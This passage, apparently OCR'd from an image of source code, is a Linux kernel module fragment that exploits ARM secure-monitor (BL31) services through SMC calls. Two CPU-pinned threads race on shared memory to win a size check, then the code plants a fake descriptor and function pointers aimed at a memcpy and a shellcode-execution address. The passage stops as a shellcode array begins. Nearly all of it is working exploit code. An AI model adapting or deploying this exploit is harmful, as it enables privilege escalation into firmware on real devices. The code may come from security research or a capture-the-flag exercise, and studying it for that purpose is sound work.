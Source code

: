 ```c
    struct task_struct *task2 = (struct task_struct *)data;

    pr_info("func1 is running on CPU %d\n", smp_processor_id());
    while (!kthread_should_stop()) {
        for (size_t i = 0; i < 0x20; i++)
            arm_smccc_smc(STORAGE_SVC_WR, 0, BL31_NS_MEM+0x80, 0x80, 0, 0, 0, 0, &res);
        if (res.a0 == 0) {
            pr_info("Condition successed!\n");
            kthread_stop(task2);
            break;
        }
    }
    return 0;
}

static int func2_thread(void *data) {
    pr_info("func2 is running on CPU %d\n", smp_processor_id());
    while (!kthread_should_stop()) {
        ns_mem[0] = MAX_SIZE_ADDR;
    }
    return 0;
}

static int step1_open(struct inode *inode, struct file *file) {
    pr_info("Step1: Device opened\n");
    struct arm_smccc_res res;
    struct task_struct *task1, *task2;

    ns_mem = phys_to_virt(BL31_NS_MEM);
    arm_smccc_smc(LOG_SVC_PLOG_SET, BL31_NS_MEM, 0, 0, 0, 0, 0, 0, &res);
    pr_info("SMC Driver: LOG_SVC_PLOG_SET, res.0 = 0x%lx\n", res.a0);

    task2 = kthread_create(func2_thread, NULL, "func2_thread");
    kthread_bind(task2, 2);
    wake_up_process(task2);

    task1 = kthread_create(func1_thread, (void *)task2, "func1_thread");
    kthread_bind(task1, 1);
    wake_up_process(task1);

    return 0;
}

static int step2_open(struct inode *inode, struct file *file) {
    pr_info("Step2: Device opened\n");
    struct arm_smccc_res res;

    if (!ns_mem)
        ns_mem = phys_to_virt(BL31_NS_MEM);
    memset(ns_mem, 0, 0x40);

    ns_mem[8] = 2;
    ns_mem[9] = MEMCPY_ADDR;
    ns_mem[10] = 3;
    ns_mem[11] = SC_EXEC_ADDR;
    arm_smccc_smc(STORAGE_SVC_WR, 0xf, BL31_NS_MEM, 0x60, 0, 0, 0, 0, &res);

    //arm_smccc_smc(STORAGE_SVC_RD, 0xf, SC_RW_ADDR, 0x60, 0, 0, 0, 0, &res);

    ns_mem[0] = FAKE_DESC;
    arm_smccc_smc(LOG_SVC_ABWR, FAKE_DESC_ADDR, BL31_NS_MEM, 0x8, 0, 0, 0, 0, &res);

    unsigned char shellcode[] = {
```